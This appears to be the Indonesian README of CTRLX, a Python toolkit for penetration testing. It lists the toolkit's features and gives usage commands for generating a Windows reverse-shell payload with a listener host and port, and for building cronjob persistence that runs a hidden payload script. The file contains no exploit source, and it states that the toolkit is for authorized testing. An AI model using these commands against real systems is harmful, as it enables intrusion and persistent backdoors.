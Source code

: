 
```markdown
# CTRLX

CTRLX adalah sekumpulan tools baris perintah (CLI) modular berbasis Python, dirancang untuk menunjang eksploitasi, persistence, obfuscation, wordlist, serta otomasi konfigurasi. Seluruh tools dapat dijalankan secara independen, ringan, dan terintegrasi dalam workflow terminal, khususnya di lingkungan Linux seperti Kali Linux.

Tidak memerlukan koneksi ke API eksternal atau autentikasi tambahan. Semua proses berjalan secara lokal dan real-time.

---

## Fitur

- Payload generator untuk Windows, Linux, dan Android
- Stager shell command (bash dan PowerShell)
- Persistence builder: cronjob, systemd, bashrc
- Exploit template generator dan pattern offset tools
- Obfuscator: XOR, base64, hex, chunking, shuffle
- Wordlist generator dari profil, karakter, dan OSINT
- Config builder untuk handler Metasploit dan scanning Nmap

---

## Instalasi

Disarankan menggunakan virtual environment:

```bash
git clone https://github.com/username/ctrlx.git
cd ctrlx
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

---

## Penggunaan

```bash
python3 ctrlx.py <kategori> --type <nama_tool> [opsi]
```

Contoh:

```bash
python3 ctrlx.py axt --type w0x --lhost 127.0.0.1 --lport 4444 --format exe --save
```

Bantuan umum:

```bash
python3 ctrlx.py --help
```

Bantuan per kategori:

```bash
python3 ctrlx.py axt --type w0x --help
```

---

## Kategori Tools

| Kategori | Deskripsi |
|----------|-----------|
| `axt`    | Payload dan shellcode generator |
| `rda`    | Persistence dan backdoor tools |
| `zkf`    | Exploit pattern, shellcode, offset |
| `xch`    | Encoder dan obfuscator |
| `qrn`    | Wordlist dan OSINT tools |
| `cfg`    | Builder untuk file konfigurasi dan command |

---

## Contoh Penggunaan

### Membuat payload Windows:
```bash
python3 ctrlx.py axt --type w0x --lhost 192.168.1.10 --lport 4444 --format exe --save
```

### Men-generate cronjob persistence:
```bash
python3 ctrlx.py rda --type c9n --command "/home/user/.hidden/payload.sh" --interval 15 --save
```

### Mengubah shellcode menjadi format variabel Python:
```bash
python3 ctrlx.py zkf --type sch --shellcode "\\x90\\x90\\xcc" --lang python
```

---

## Output

Semua output akan otomatis disimpan ke dalam folder:

```
output/<kategori>/...
```

Contoh:
- `output/axt/payload_127_0_0_1_4444.exe`
- `output/rda/rda_20250412_135632_xxxxxx.txt`
- `output/zkf/zkf_20250412_023732_xxxxxx.txt`

---

## Legal

CTRLX disediakan untuk keperluan edukasi, pelatihan keamanan, dan pengujian pada sistem yang Anda miliki atau memiliki izin eksplisit. Setiap tindakan dan konsekuensi dari penggunaan berada sepenuhnya di tangan pengguna.

